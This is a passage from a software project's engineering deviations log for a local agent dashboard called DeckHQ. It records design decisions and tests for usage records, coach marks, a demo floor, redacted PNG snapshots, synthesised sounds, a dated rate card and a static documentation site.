counts, or how fast a fast day has to be before it is a day at all. Each of
these is written down because each could have been decided the other way and
the number would still have looked plausible — which is exactly the class of
thing this log exists for.

**1. A turn is a session starting work.** `isTurn()` counts `state` records
with `dim: 'activity'` and `to: 'working'`. The obvious alternative was to count
`send` records — the ledger already has them, and they are unambiguous. They are
also only the half of the floor that came through DeckHQ. On the reference
machine most turns are typed in a terminal, so "the busiest day" computed from
sends would have been a fact about the panel wearing the name of a fact about
the floor. The `to: 'working'` transition is written whoever caused it.

**One exclusion, and only one:** `stalled` → `working` does not count. A stall is
*inferred from silence*, so coming out of one is the same turn resuming; a long
quiet turn would otherwise register as several short ones, and the busiest day
would be won by whichever day had the worst network. `working` → `working` is
guarded too, although the state machine does not write it.

**2. "Never slept" counts distinct hours OF THE DAY, not hour-slots in the
week.** The alternative — 168 slots across the window — makes the record "the
busiest room", which is `busiestDay` again with more arithmetic. Hours of the
day, capped at 24, makes the record what its name says: somebody was in that
room at 04:00 *and* at 16:00, and 24 of 24 is a room that genuinely never slept.
Every kind of record counts as activity, including a token delta: a token delta
at 03:00 is somebody working at 03:00.

**3. A day needs three discharges before it can be the fastest.**
`MIN_DISCHARGES_FOR_FASTEST_DAY = 3`. Without a floor the record is permanently
held by whichever day happened to contain exactly one two-second discharge,
which is not a fact about a day — it is a fact about one click. Three is the
smallest number for which "the median" is the median of anything. A ledger with
no qualifying day reports `null` and the line is simply absent, which is the
shape every other record uses when it has nothing to say.

**4. Records are never windowed by `--days` or by `?since=`.** The rest of `GET
/api/stats` is a window; these are not, for the same reason `longestWaitEver`
already was not. A record that a thirty-day window could erase is not a record.
The rolling week inside `busiestWeek` and `neverSlept` is a property of those
two records, not of the report they sit under.

### `records` on the route used to be a number

`GET /api/stats` published `records: <count of ledger lines>`. WP-46 needs the
name, so the count moved to `recordCount` and `records` is now the object.
`computeStats()` emits **both** names, so nothing that read the count has to move
in the same commit as the thing that took its name. Nothing in the tree read the
route's `records`; `deckhq stats` reads `computeStats()` directly and is
unaffected. This is a breaking change to the JSON shape of one field on one
local endpoint and it is recorded as one.

### Degrading on a young ledger

WP-46's records are mostly about history, and a floor installed yesterday has
none. Three ways to handle that: report nothing until a week has passed, report
a week that did not happen, or report what there is and say what there is. The
third is the only one compatible with `docs/plan/08` §1.1 rule 11.

So every record carries `since` — the first day the ledger holds — and `partial`,
true while that is less than `RECORD_WINDOW_DAYS` ago. `deckhq stats` prints
`since <day>` once under the heading; the panel's line carries ` · since 1 Sep`
on itself, because it travels alone. The rolling window is **clipped** to the
ledger rather than extended past it: `neverSlept.from` on a two-day-old ledger is
the day the ledger starts, so "22 hours of the day" is never quietly a claim
about a week that has not happened.

### Never scoring the human, as a test rather than a convention

Rule 6 and `docs/plan/04` §5 are the binding constraint on this package, and the
failure mode is not a designed feature — it is one sentence written in the wrong
person during a later edit. So it is asserted:

- `no record line addresses the reader` renders every record through **both**
  surfaces — `renderRecords()` in the CLI, `recordLineFor()` in the client — over
  a fixture that sets all five, and scans the output.
- `no string literal in the records copy addresses the reader` reads
  `public/records.js` whole and the body of `renderRecords()` from
  `src/cli/stats.mjs`, strips comments, and scans every string literal. That
  covers the branches a fixture does not reach, including one added later.

The detector matches `you`, `your`, `yours`, `you've`, `you're`, `you'll`, with
one allowance: **"waiting on you"**, which is the product's own noun phrase for
the queue and is a description of a state rather than a reproach. The allowlist
is one array with a comment saying so, so widening it is a visible act.

The CLI's `--help` is deliberately **out of scope** of the literal scan: it says
"your retention window", which is possession and predates this package. The scan
is scoped to `renderRecords()` for exactly that reason, and scoping it is
recorded here rather than left to be discovered.

### DEPARTURE: the hover card was not touched — **DECISION NEEDED**

WP-46 says the records "live in the hover card and in Wrapped". The panel's
identity area has its line. **The floating hover card does not**, and this is a
departure, not an oversight.

The hover card is `showTooltip()` in `public/app.js`. This package's brief
prohibits touching `public/app.js`, `public/index.html` and
`public/render/plan.js` — the same brief also described the hover card as living
in `public/render/scene.js` or `public/render/agents.js`, where it does not:
those two report a hover *target*, and `app.js` builds the DOM. So the
instruction to add the line and the instruction not to open the file are the same
instruction about the same file, and the file-ownership one was taken as binding:
a package that quietly edits a file it was told another agent owns costs more
than a missing grace note.

What exists instead is the seam. `public/records.js` is a pure module with no DOM
at module scope and one function, `recordLineFor(agent, stats)`, already used by
`public/panel.js` and already covered by tests. Landing the hover card is an
import plus three lines inside `showTooltip()`, after the project/model line:

```js
import { recordLineFor } from './records.js';
// … inside showTooltip(), after the meta line:
const record = recordLineFor(agent, teamStats);
if (record) el.tooltip.appendChild(tooltipLine(record));
```

with `teamStats` fetched from `GET /api/stats` on the same five-minute cache
`panel.js` uses. **Decision needed:** whoever owns `public/app.js` applies that,
or WP-46 is accepted as panel-only and §7's sentence is amended.

### Goldens

`npm run goldens:check` is green on all four populations at **0 px moved at
all**, checked rather than assumed. The record line renders only inside the side
panel, which the golden captures never open — `scripts/goldens.mjs` passes no
keys and no `--click` — and the one shared file this package touched that could
have reached a capture, `public/style.css`, gained a single new rule for a class
that appears nowhere on the floor.
## 108. WP-13 — the coach marks, the anchor the renderer does not expose, and the actor floor the daemon serves

**Spec:** `05-GUI-UX-SPEC.md` §7. Delete the modal. Three coach marks on real elements, each
dismissible, `Escape` skips all three forever, total reading under fifteen seconds. And: an empty
machine shows the demo floor's actors with one line of copy, and switches to the real floor when
the first real session appears.

Four departures, in order of how much they matter.

### 108.1 The two floor anchors point at the whole canvas, because the renderer exposes no geometry

§7 anchors mark 2 to "the user's office" and mark 3 to "one waiting agent". Both are regions of a
single `<canvas>`: there is no element to measure, and `public/render/scene.js` has no public
accessor that maps either to screen space. `Scene` exposes `setState`, `select`, `start`, `stop`,
`destroy`, the zoom controls and the static `describeFloor`; the screen-space rects it keeps
(`_plateRects`, `_fixtureRects`) and its camera parameters (`_cameraParams`) are private, and
`public/render/**` was being rewritten by another engineer for WP-50 while this package was built,
so reading a private field would be coupling to a file that is changing underneath.

What shipped: `app.js`'s `coachAnchorFor()` asks for `scene.anchorFor(target, id)` and uses it if
it is ever there. When it is not — which is today, always — it falls back to the canvas's own
bounding box and marks the anchor `arrow: false`. A card with `arrow: false` is placed *inside*
the box rather than beside it, with the pointer triangle and the highlight ring both suppressed.

That is deliberate: the alternative was to place an arrow at a guess. A coach mark whose arrow
points at empty carpet is worse than one with no arrow, because the arrow is a claim.

**The gap, stated as a request.** `Scene` needs one method:

```js
/** @returns {{x:number,y:number,w:number,h:number}|null}  CSS px, viewport-relative */
anchorFor(target /* 'office' | 'lounge' | 'agent' | 'project' */, id /* for agent/project */);
```

It is the arithmetic `_hitTest` already does in reverse — `worldToScreen` against
`_cameraParams()` — and once it exists the two marks become exact with no change to
`coach-marks.js`, only to the three lines in `coachAnchorFor()`. Requested of the renderer owner;
not built here, because building it would mean editing a file this package may not touch.
`test/unit/coach-marks.test.mjs` covers both paths, so the day it lands the fallback stops being
exercised and nothing else moves.

### 108.2 The reading budget is costed at 200 wpm, and the count is asserted rather than claimed

§7 says "total reading time under 15 seconds" and does not say at what speed. Screen-prose reading
speed is measured anywhere between roughly 175 and 300 wpm depending on the study and the
material, so a budget costed at the fast end is a budget that passes on paper and fails in a
chair. `READING_WPM` is 200 — the slow end but not the pathological one — and the whole sequence
measures **10.2 s** (34 words at the populated-floor variant of mark 1). The assertion is in the
suite, so copy that grows past the budget fails the build rather than being noticed by nobody.

### 108.3 The empty machine is served by the daemon, not by booting the demo script

§7 says "run the demo floor's actors". The obvious reading is `scripts/demo-floor.mjs`, which
builds a fake `~/.claude` on disk and drives a second daemon through the real hook endpoint. That
is right for screenshots and wrong for a user's first run: it writes a fixture tree, spawns a
process, and — the part that decided it — puts actor sessions into the same scan path the user's
real sessions come from, where an acknowledgement could land on one.

What shipped instead is `src/core/demo-fixture.mjs`: a pure function producing a snapshot-shaped
object with `demo: true`, substituted at the single place a snapshot is made
(`Registry.snapshot()`) when the scan found nobody. The registry's own `_agents` stays empty, so:

- `/api/ack`, `/api/send`, `/api/resume` and `/api/conversation` 404 on an actor id **by
  construction** rather than by a check somebody has to remember to write. There is a named
  `INVARIANT:` integration test that posts all three ack actions at an actor and asserts each is
  refused and that nothing was written.
- The substitution ends on the scan that finds anybody, which is what makes §7's "within one poll"
  true. The integration test writes a real transcript, calls `/api/refresh`, and asserts the cast
  is gone and the real session stands alone.
- Nothing about an actor can reach `state.json`, the identity file or the cache.

Three consequences worth naming:

1. **The terminal surfaces strip them.** `deckhq ls`, `waiting` and `statusline` all read
   `/api/state`, and a fake `2 waiting` in a shell prompt is the one lie this product cannot
   afford. `askDaemon()` applies `withoutDemoAgents()` at the single door they come through, and
   `doctor`'s `deckFrom()` does the same. Both are asserted.
2. **The actor floor never raises the degraded banner.** Nothing has run on this machine, so
   there is nothing for hooks to be exact about; telling a first-time user their state is
   degraded would be false and would be the first thing they read.
3. **The panel had to learn about them**, because mark 3 says "Click anyone." A click on an actor
   used to produce `Could not load the conversation: Unknown runtime "demo"` and `Could not read
   the working tree: Unknown session`. It now shows the actor's own line and says what it is; the
   action row and the composer answer with one sentence rather than an error toast.

### 108.4 `test/goldens/win32/empty.png` had to be regenerated, and it is now a populated floor

The `empty` population exists to photograph a machine with no sessions. That machine now shows the
actors, so the golden changed from "Nothing on the floor yet" to a floor. That is the correct
picture of the new behaviour and it is why the golden was regenerated; it is also the reason the
`empty` population no longer proves anything about the empty-state markup, which survives in
`index.html` for the case the demo fixture cannot cover (a renderer that failed to load).

### What is tested

`test/unit/coach-marks.test.mjs` (16) — the three marks and their anchors; the copy at 0, 1 and n
waiting, and a scan for second-person fault; the lesson each mark carries; the reading budget; a
mark whose anchor is absent being dropped rather than shown lying; the sequence reducer forward
and skipped, including that a finished sequence ignores a second `Escape` (which is what stops
`onboarded` being posted twice); card placement below, flipped above, clamped at the edge and
inside an anchor the size of the stage; and, over a DOM stub, that the tour shows one mark at a
time, that `Escape` reaches `onDone({skipped:true})` exactly once and removes its own listener,
and that the modal is gone from `index.html` and from `app.js`.

`test/unit/demo-fixture.test.mjs` (9) — snapshot shape; that the two states the product is about
are both on the floor; identity fields; purity against the clock; `INVARIANT:` unaddressable ids;
the degraded banner; carried settings and write errors; and `withoutDemoAgents`.

`test/integration/demo-floor.test.mjs` (4) — a real daemon over an empty machine: the actors are
served, an actor cannot be acknowledged/benched/let go, the first real session replaces the whole
cast within one `/api/refresh`, and the terminal surfaces report zero.

**Screenshot:** `docs/media/coach-marks.png` — the first mark on the needs-you numeral, over the
actor floor, with the actors' line underneath. Regenerable:
`node scripts/capture-floor.mjs --url <daemon> --onboarding`, a flag added for exactly this shot.

## 109. WP-14 — the office snapshot: how redaction reaches the room plates, and the two numbers that had to be measured before they could be believed

**Spec:** `04-ENGAGEMENT-AND-GAMIFICATION.md` §3.2 and WP-14's acceptance: `S` composites the
floor plus a stat strip into a PNG, on the clipboard and saved to `~/.deckhq/snapshots/`,
hostname as the office name, one-key redact swapping project names for MK tags. Accepted when the
PNG is ≥ 2× device pixel ratio and under 2 MB, redaction leaves no project name anywhere in the
image **including room plates**, and it works with the tab backgrounded.

All three of those turned out to have a sharp edge on them.

### 109.1 Redaction reaches the room plates through `setState`, not through a new render export

The brief anticipated this: "the compositor re-draws plates itself or asks the renderer for a
redacted frame — if the latter needs a render export that does not exist, draw the strip and
composite the existing canvas, redact only the strip, and record the gap."

Neither was necessary, because a third route exists using only what `Scene` already exports.
The room plates are painted from the snapshot the renderer was last given, and `setState` is
public and means exactly "draw this". So `takeSnapshot()`:

```
scene.stop()                      // a stopped Scene draws on setState, synchronously
scene.setState(redactedSnapshot)  // plates repaint with MK tags
… capture …
scene.setState(latestSnapshot)    // the floor goes back to the truth
scene.start()                     // if it was running
```

Redaction is therefore total across the image rather than confined to the strip, and no file
under `public/render/**` was touched. Shipping the fallback the brief allowed would have meant a
control labelled "redact" that leaves every project name legible on the floor above the strip,
which is worse than having no control at all.

`redactSnapshot()` covers three fields, not one:

| Field | Why |
|---|---|
| `projects[].name`, `agents[].projectName` | what the plates draw — the spec's requirement |
| `cwd` | the one field carrying a directory tree; not drawn today |
| `projects[].id`, `agents[].projectId` | a slug **of the directory name**, so it spells the project out verbatim |

Substituting the id is safe because it is a key, not a seed: the floor plan derives geometry from
counts and the array's order, and the only string the renderer hashes is the *agent* id
(`agents.js` `hashString(agent.id)`), which is untouched. Verified by inspection of `plan.js` and
`agents.js`, and the redacted capture in `docs/media/` has the same room layout as the
unredacted one taken seconds earlier.

**Not redacted, and deliberately:** the hostname. §3.2 is explicit that the office is named after
the machine "because people share things with their name on them", and redaction is defined there
as a project-name control. `DECKHQ_HOSTNAME` overrides it for anyone who wants a different name —
added because `scripts/demo-floor.mjs` exists so that nothing real reaches a committed
screenshot, and a machine name is somebody's real something.

**Also not redacted, and flagged rather than solved:** a thought bubble (WP-52) draws a tool
summary such as `Edit src/refunds/reconcile.ts`. Those are paths relative to the session's own
working directory, so they do not normally carry a project name, and a path from outside the cwd
is already reduced to its file name by WP-52 itself. It is a narrower surface than the plates
were, it is not what §3.2's control is about, and it is recorded here rather than silently
assumed safe.

### 109.2 "≥ 2× and under 2 MB" is reachable, but only by resampling the opposite way to the obvious one

Measured on the demo floor, a 1600×1000 window, device pixel ratio 1:

| How the floor is scaled to 2× | PNG |
|---|---|
| Smooth (bilinear, `imageSmoothingQuality: 'high'`) | **4.05 MB** |
| Nearest-neighbour | **1.96 MB** |
| For reference, the same floor captured at 1× | 900 KB |

The floor's materials are deliberately high-entropy — herringbone, woven carpet, poured screed,
ambient-occlusion bands — so smooth interpolation invents a new intermediate colour at nearly
every output pixel and destroys PNG's row prediction. Nearest-neighbour emits four identical
pixels per source pixel, which compresses close to the 1× original. It is also the *sharper*
result: a pixel-doubled screenshot viewed at 1× on a dense display is crisp, where a blurred one
is permanently blurred.

So the compositor smooths only when it is genuinely downsampling (`scale > dpr` disables
smoothing), and the acceptance criterion is met at the reference window rather than missed by
2×. `alpha: false` on the output context is asked for as well; Chrome ignores it for PNG (3.7 KB
of 2.27 MB, measured) and it costs nothing.

**Where the two requirements still disagree**, on a floor large enough, the resolution floor
wins: `nextScaleDown()` steps the scale down towards 2× and stops there, and the toast names the
size rather than silently shipping a blurry office. A 2.3 MB snapshot at 2× is a snapshot; a
1.9 MB one at 1.4× is a blurry picture of an office, which is the thing this feature exists to
stop.

### 109.3 A backgrounded tab reports no layout, and the first version of this shipped a 6400×672 sliver

"Works with the tab backgrounded" was tested by backgrounding a tab and dispatching the key into
it, which is how the defect was found. Measured in Chrome with `document.hidden === true`:

```
clientWidth  0        clientHeight 240 (stale)
innerWidth   0        innerHeight  0
getBoundingClientRect().width 0
canvas.width 3200     canvas.height 480     devicePixelRatio 2
```

The compositor's first version read `floor.clientWidth || floor.width` — a CSS-pixel field with a
**device-pixel** fallback, two different units in one slot. Hidden, that produced a 6400×672
image of a sliver of floor. The fix is to stop reading layout at all: the CSS size is derived
from the backing store and the device pixel ratio (`floor.width / dpr`), which is the one
description that is always right because it is what the renderer actually drew into. The
capture is otherwise already frame-independent — a stopped `Scene` draws inside `setState`, and
`toDataURL` is synchronous, so nothing waits for a `requestAnimationFrame` a hidden tab will
never fire.

Both the hidden-tab geometry and the no-backing-store fallback are now unit tests, with the
measured numbers in them.

### 109.4 The route names the file, and takes nothing else from the request

`POST /api/snapshot` is the only endpoint in the product whose entire purpose is to put a file on
the user's disk, so what it accepts is the whole of its security surface:

- **The daemon names the file**, from its own clock (`deckhq-20260904-142233.png`). There is no
  filename field, no fragment of one, and no header that reaches a path. A route that takes a
  name from a request body is a route that eventually writes outside its directory.
- **The body must be a PNG**, checked by magic bytes before anything is written. The
  `content-type` header is a claim, not evidence.
- **Its own 8 MB ceiling**, because `server.mjs`'s `readJson` caps every other route at 1 MB —
  right for JSON, wrong for the one route that carries an image. Over the ceiling the socket is
  destroyed rather than the file truncated.
- It touches no ack state, no settings and no identity.

### 109.5 "Today's spend" is today's *sessions*, summed over their whole lives

§3.2's strip line is `today ≈ $18.40 · 2.4M tokens`. There is no per-day token record until the
ledger lands (WP-17), so what the strip can honestly compute is: the sessions whose last activity
falls after local midnight, summed over their entire history. That over-counts a session that
started yesterday and got one more turn today. It is labelled `estimate` in the line itself —
standing rule 7, and the word is in the image rather than in a tooltip nobody screenshots — and
it becomes exact for free when WP-17 lands.

### What is tested

`test/unit/snapshot.test.mjs` (18) — redaction over a floor of three deliberately
unshowable project names, asserting none survives anywhere in the model the image is drawn from,
that the MK tag takes the name's place so plates still say something, that cwd and id go too,
and that the live snapshot is not mutated (it is handed straight back to the renderer); the
strip's four lines against §3.2's mock; that the money line says "estimate" and never "bill";
that only today counts towards today; the formatters; the resolution floor beating the size
budget; the composite's geometry visible, backgrounded, and with no backing store; and that
`drawStrip` needs nothing but a 2d context.

`test/integration/snapshot-route.test.mjs` (8) — a real daemon: a PNG is written byte for byte
under a daemon-chosen name inside the directory it was given; the directory is created on demand;
`SECURITY:` five non-PNG bodies including a shell script announced as `image/png`, none of which
reaches disk; `SECURITY:` a filename smuggled through two headers, ignored; an oversized body
refused rather than truncated; a 2 MB body accepted; and the hostname, including
`DECKHQ_HOSTNAME` and the six malformed values that fall back to the machine's own name.

**Screenshot:** `docs/media/snapshot-sample.png` — an actual `S` output from the demo floor at a
1200×760 window: the floor, then `DECKHQ-DEMO · 6 rooms · 25 people`, the four tallies with their
state dots, the estimate line and the wordmark.

## 110. WP-15 — three sounds measured rather than described, and the default that was left alone

**Spec:** `05-GUI-UX-SPEC.md` §8 and §9. Three WebAudio-synthesised sounds, rate-limited to the
notification coalescing window, silent when the tab is hidden and the OS notification is doing the
work, globally off in one keystroke from the palette. The office-cleared moment: light warms 6%
over 1.2 s, chime, one line for 3 s; `prefers-reduced-motion` suppresses the light and keeps the
line.

### 110.1 `settings.sound` still defaults to **off**, and that is a decision for the owner

§8's table says all three sounds default **on**. `DEFAULT_SETTINGS.sound` is `false`, and
`test/unit/settings-keys.test.mjs` pins it with a named test and a stated reason:

> *A product that sits beside a terminal at 11pm does not arrive making noise.*

That test and that default landed in WP-07. Flipping it now would make every existing install
start making noise on upgrade — a stored `state.json` written before this change has no `sound`
key, so it would merge to the new default — which is the precise shape of the thing `04` §5 calls
out: *"sounds that play more than a few times a day"* and settings people turn off. Making that
call is above this package's line, so **the default was left alone and the conflict is written
down here**. Everything else about §8 is real: the three sounds exist, the scheduler is wired, the
volume works, and one palette keystroke (`⌘K` → `u`) turns them on and persists it.

Turning them **on** from the palette now plays the chime once and says what the three are. A
sound setting whose effect you cannot hear is a setting nobody can judge, and this is the one
moment where a sound is a direct answer to something the user just did — so it is the one place
that bypasses the coalescing window.

### 110.2 The synths were measured, not described

Rendered through a real `OfflineAudioContext` in Chrome. The first version was wrong in a way no
unit test would have caught, because a stub records what you asked for and not what comes out:

| | door | knocks | chime |
|---|---|---|---|
| peak at `soundVolume` 0.4, **before** makeup gain | 0.069 | 0.093 | 0.396 |
| peak at 0.4, shipped | **0.195** | **0.265** | **0.396** |
| peak at 1.0, shipped | 0.463 | 0.632 | 0.989 |
| clipped samples, at every volume tested | 0 | 0 | 0 |
| audible until (declared budget) | 136 ms (180) | 170 ms (190) | 336 ms (400) |

A lowpass at 380–1600 Hz throws away most of white noise's energy while an oscillator loses none
of its own, so the two noise sounds arrived about 15 dB under the chime — the door, which is the
sound that happens several times an hour, would have been inaudible beside the celebration that
happens twice a day. `NOISE_MAKEUP` is ×3, and the number is in the source with the measurement
beside it.

A second defect fell out of the same measurement: the burst envelope was clamped to 1, which made
the volume slider stop affecting the door above about a third of its travel (0.187 at volume 1.0
against 0.164 at 0.4). The clamp is gone — the gain is applied *before* a filter that removes most
of it, so it does not need to be inside unity — and the output is checked for clipping instead.

The noise source is a seeded LCG rather than `Math.random`, so two door closes a second apart are
the same door. Asserted.

### 110.3 The office-cleared line says `1d 2h`, where the spec's example says `26h`

`04` §2's example line is *"Office clear. 7 discharged today, longest wait 26h."* The product says
`1d 2h` everywhere else a wait appears — the office plate, the waiting badges, the snapshot strip
— and `04` §3.2's own strip mock uses `1d 2h` for the same duration. One register beats one
example, so the line reads *"Office clear. 7 discharged today, longest wait 1d 2h."* That is
exactly what `docs/media/office-cleared.png` caught on a real floor.

### 110.4 The numbers are this tab's counters, and say so by being small

Until WP-17's ledger, "discharged today" and "longest wait" are counted by the open tab from the
snapshots it has seen. Consequences, stated rather than papered over:

- A tab opened at noon reports what it has watched since noon, not since midnight. The counters
  do reset at local midnight for a tab left open overnight.
- The **first** snapshot only establishes a baseline. Without that, a tab opened onto an
  already-empty floor would count the page load as a clearing, and one opened onto a busy floor
  would date "busy since" to the page load rather than admit it does not know.
- "Discharged" counts every agent that left the needs-you queue — a button, a reply typed in the
  terminal, or a bench. All three are the user acting, which is what the count is about.

The line is honest at every value it can take, and it never scores the human: there is no version
of it containing "you", a streak, a level or a badge, and that is asserted by scanning the
generated copy across four counts and three wait lengths.

### 110.5 The warm is a stage overlay that does not exist until it is needed

§9's light is a CSS overlay on `.stage`, not a change in the renderer — it is chrome *about* the
floor, it must not touch the floor's baked materials or its state colours, and
`public/render/**` is another package's file. It is tungsten rather than the accent: crimson is
reserved for `for_review` and primary actions, and a red flash over a cleared office would say the
opposite of what the moment means.

One detail worth the line it costs: the overlay is declared on `.stage.is-cleared::after`, not on
`.stage::after` at `opacity: 0`. A permanently-present pseudo-element with `mix-blend-mode` puts
the canvas on a composited layer even at zero opacity, and the floor is photographed pixel for
pixel by `npm run goldens` — a compositing change that moves one channel by one count is exactly
what that gate exists to catch. Goldens confirmed unchanged after this package.

`prefers-reduced-motion` is honoured twice over: the JS guard never adds the class, and the
stylesheet's global reduced-motion block would neutralise the animation anyway. The line is
written *before* the guard returns, so reduced motion keeps it — asserted by reading the
function's own source, because the alternative is a browser test for an ordering.

### What is tested

`test/unit/sound.test.mjs` (14) — the four scheduler rules one at a time, including that a hidden
tab is silent *only* when a notification actually fired (both halves of §8's rule, and the reason
`app.js` records `lastNotifyShown` from what happened rather than from what was requested); that
the sound window and `app.js`'s `NOTIFY_COALESCE_MS` cannot drift apart, read out of the source;
the three synths' shapes, durations and filter bands against a recording stub; the makeup gain and
the volume slider's full travel; that no envelope ramps to exactly zero (which throws in a real
`AudioContext`); that the noise is deterministic; and that neither `sound.js` nor `docs/media/`
contains a single audio file, fetch or `new Audio` — WP-15's "no network request and no bundled
audio file", asserted rather than promised.

`test/unit/office-cleared.test.mjs` (13) — the queue definition matching the header numeral; the
first-snapshot baseline; that it fires once per clearing and never again while the floor stays
empty; that a two-second turn earns nothing; the sixtieth second as an exact boundary; that the
busy clock restarts rather than carrying credit over; the day counters and their midnight reset,
with an overnight wait surviving it; an agent with no clock of its own timed from first sight; the
copy at one, many and no measurable wait; that it never scores the human; and that reduced motion
drops the light and keeps the line.

**Screenshot:** `docs/media/office-cleared.png` — a real clearing on the demo floor: six
discharged, the header at zero, the office empty, and the line on screen inside its three seconds.
The warm is at 6% and is deliberately hard to see, which is the point.
## 111. WP-26 — the rate card is data with a date on it, and an unknown model has no price

`01-AUDIT.md` F14: "hard-coded rates". They were four hand-typed tiers in the
middle of `src/core/model.mjs` — a substring test for `haiku`, then `sonnet`,
then `gpt|codex|o3|o4`, and **Opus prices for everything else**. Three separate
things were wrong with that, and the third is the one that mattered:

1. Nobody could check the numbers. There was a `RATE_CARD_VERSION` string
   beside them (WP-07) and nothing tying it to a published page.
2. Nobody could correct them without editing the installed package, which
   `npx` is free to replace on the next version bump.
3. **A model nobody had heard of was priced as Opus.** A Codex session on a
   model id the tests never saw, a local model, a Bedrock id with a region
   prefix — all of them came out at $15/$75 per million. That is not a coarse
   estimate, it is a fabricated one, and it was being summed into project
   totals and shown on the review card as a dollar figure.

### What shipped

`src/data/rates.json` — versioned `2026-09-04`, carrying the URL it was read
from and the date it was read. `~/.deckhq/rates.json` merges over it entry by
entry and is picked up on its next mtime change, no restart. The loader is
`src/core/rates.mjs`; the pure half (prefix matching, the merge, the
arithmetic) is exported separately so the tests never touch a disk they did
not make. The JSON is under `src/`, which is already in `package.json`'s
`files`, so it is in the tarball by construction rather than by a new entry
somebody can drop.

### Six decisions

**1. The table left `model.mjs`.** That file's header promises "no I/O" and it
is the contract every other module imports. A rate card that is read from disk
and reloaded when it changes is I/O, so `estimateCost` and the version string
moved to `rates.mjs` rather than dragging a `readFileSync` into the contract.
`model.mjs` keeps a signpost where they were.

**2. Longest prefix wins, and nothing else disambiguates.** Not row order: a
table whose behaviour depended on the order of its rows is a table nobody can
safely add a row to. `claude-opus-5` beats `claude-opus`; `claude-haiku-4-5`
beats neither because it is not a prefix of them. Two tests assert it, one of
them by matching against the same table reversed.

**3. A provider prefix is not a different model.** Bedrock ships
`us.anthropic.claude-opus-5…` and Vertex ships `claude-opus-5@20260101`. The
old substring test happened to survive both; strict prefix matching would not
have, and every Bedrock user's floor would have gone to "no rate" in silence.
`normaliseModelId` peels the known provider prefixes and the `@` version
separator and does nothing else — a normalisation that rewrote the id would be
a second, invisible matching rule on top of the one the table states.

**4. An unknown model returns `null`, not `0`.** `Agent.costEstimate` and
`SessionSummary.costEstimate` are `number|null` now. The panel says
`no rate for this model`, the room plate shows no payroll line at all, and
`projects()` carries a `costRated` flag so a caller can tell "nothing here has
a price" apart from "this cost nothing". **Zero is a claim about the money.**
We did not have one, so we no longer make one.

**5. The OpenAI/Codex rows are flagged `unverified` in the file itself.** The
retrieval was from Anthropic's pricing page; the Codex numbers are the ones the
hand-typed tier carried, and nothing in this package has checked them against a
published list. They are in the table because a Codex session with no rate at
all would be a regression, and they are flagged because a number in a dated
table implies a source. A test asserts that every non-`claude-` row carries the
flag and every `claude-` row does not.

**6. The payroll line is an estimate of an estimate, and says which day it
means.** A `tokens` ledger record carries a delta and a project key — **not a
model** — so the day's tokens cannot be priced per model without changing
WP-17's record shape. They are priced at the room's own average rate instead:
the day's token movement over the project's lifetime token total, times the
project's lifetime estimate. On a room running one model, which is nearly every
room, the two are the same number. A project with no `tokens` record today
falls back to its session totals and the line reads `≈ $7.86 to date` rather
than `today ≈ $7.86` — the plate never says "today" about a number that is not
today's. The day's tally is kept in memory by `Ledger` (seeded by `prime()`,
added to by `record()`, emptied at the roll) rather than re-derived by reading
the day file back on every snapshot.

### Rule 7 is asserted as literal text

`08` §1.1 rule 7 — cost is an estimate, never a bill — is only true if it is
true of the characters on the screen. `test/unit/rates.test.mjs` collects every
cost string any surface can produce (the panel's bottom line in all three of
its branches, both payroll-line branches, `deckhq stats` with and without a
ledger) and asserts two things over the set: every string carrying a figure
also carries `estimate`, `list price` or `not a bill`; and no string contains
`bill` without `not a ` immediately in front of it. A new display that forgets
the qualifier fails the suite rather than the review.

The panel's line reads
`≈ $7.86 · list price, rate card 2026-09-04 · not a bill`, the room plate's
third line reads `today ≈ $18.40 · list price`, `deckhq stats` prints
`rate card 2026-09-04 — list-price estimate, not a bill` (including on an empty
ledger, because "which table is this build pricing with" is a question asked
before there are numbers), `--json` carries `rateCardVersion`, and the settings
sheet's "Rate card" row now reads the live version rather than a constant.

### RAISE — the plate's third line is computed but not yet painted

`08` §8.1 asks for per-room daily spend on the room plate, and this package
produces it: `buildPlan` puts it in `room.plateLines[2]`, the snapshot carries
`todaySpend`/`todaySpendIsToday` per project, and it is tested. **It does not
appear on the floor yet**, because the only thing that paints a room plate is
`Scene._drawRoomPlate` in `public/render/scene.js`, which draws `lines[0]` and
`lines[1]` and recomputes a project room's lines from the snapshot in
`_plateLinesFor` rather than reading `room.plateLines` at all — and that file
was explicitly outside this package's file scope. The change it needs is small
and additive: `_plateLinesFor`'s `project` branch returns
`[name, dataLine, payrollLine(project)]`, and `_drawRoomPlate` draws a third
line under `dataY` at the same 11 px mono face, with `lines[2]` folded into the
hit rect's `bottom` the way `lines[1]` already is. Until that lands the floor is
byte-identical, which is why the goldens did not move (below).

### Goldens

**Not regenerated, and not needing to be.** The plate change is data only —
see the RAISE above — so no pixel on the floor moved. `npm run goldens:check`
was run against the committed set and passes on every population it can capture
on this machine. The moment `scene.js` paints `lines[2]`, the floor changes and
the goldens must be regenerated in the same package that does it.
## 112. WP-29 — the documentation site: hand-written HTML, and the promise it has to keep

**Spec:** [`06-ENGINEERING-WORKPLAN.md`](plan/06-ENGINEERING-WORKPLAN.md) WP-29 asks for a
user-facing site — install, the model in 60 seconds, hooks, adapters, privacy, an FAQ whose first
entry is "why not just use `claude agents`", and the deviations log as an engineering blog. Static,
no tracking.

**Shipped:** `site/`, deployed to GitHub Pages by `.github/workflows/pages.yml` on every push to
`main`. Six hand-written pages, one generated log page per entry in this file, one stylesheet, one favicon, five images
copied from `docs/media/`. `node site/build.mjs` renders it into `site/dist/`, which is generated
and gitignored — the root `dist/` rule already covered it — and `.prettierignore`d; `site/` itself
is formatted with everything else.

### 1. No site generator, and no dependency to add one

The obvious build for this is Astro, Eleventy or a markdown pipeline. All three are dependencies,
and [`08`](plan/08-PLAN-V2-100X.md) §1.1 rule 3 is about the product rather than the repository —
but a documentation site that needs 300 packages to render seven pages would sit oddly beside a
product that reads its own source in an afternoon. So the pages are hand-written HTML bodies, the
shell around them is a template literal, and the only moving part is a small markdown converter for
the log.

**What that costs, honestly:** no live reload, no incremental build, and a converter that
implements a subset of markdown rather than CommonMark. **What it buys:** the site builds on a
fresh checkout with `node site/build.mjs` and nothing installed, which is also why the Pages
workflow has no `npm install` step.

### 2. The zero-egress promise, extended to the site and asserted

The product makes no outbound network calls of any kind. Its site is held to the same rule, and the
rule is a test rather than a habit. `test/unit/site.test.mjs` builds the site into a temporary
directory and asserts that no page fetches anything cross-origin — no `src`, `srcset`, `poster` or
`<link href>` with a scheme or a leading `//` — that no page carries a `<script>` or an `<iframe>`
